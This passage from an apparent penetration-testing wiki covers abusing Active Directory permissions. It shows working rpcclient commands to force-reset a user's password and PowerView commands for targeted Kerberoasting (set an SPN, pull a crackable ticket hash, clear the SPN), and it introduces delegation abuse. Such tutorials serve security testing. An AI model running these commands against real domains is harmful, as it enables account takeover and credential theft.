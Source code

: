 The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

### GenericAll

This ACE can be abused just like [`AddMember`](abusing-aces.md#addmember) \(when applying to a group\), [`ForceChangePassword`](abusing-aces.md#forcedchangepassword) \(when applying to a user, **not sure about this, latest tests indicate that no, it can't be abused like this**\) or [`ReadLAPSPassword`](abusing-aces.md#readlapspassword) \(when applying to a computer\).

> It provides full rights to the object and all properties, including confidential attributes such as LAPS local Administrator passwords, and BitLocker recovery keys. In many cases, Full Control rights aren’t required, but it’s easier to delegate and get working than determining the actual rights required
>
> [adsecurity.org](https://adsecurity.org/?p=3164)

#### Target user account

When applying to a user account, this ACE can be abused to add a SPN \(ServicePrincipalName\) to that account. Once the account has a SPN, it becomes vulnerable to [Kerberoasting](abusing-kerberos/kerberoast.md). This technique is called [Targeted Kerberoasting](abusing-kerberos/kerberoast.md#targeted-kerberoasting). This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password.

#### Target **computer** account

When applying to a computer account, this ACE can be abused to edit the account's properties and configure it for [Kerberos Resource-Based Constrained Delegation \(RBCD\)](abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd).
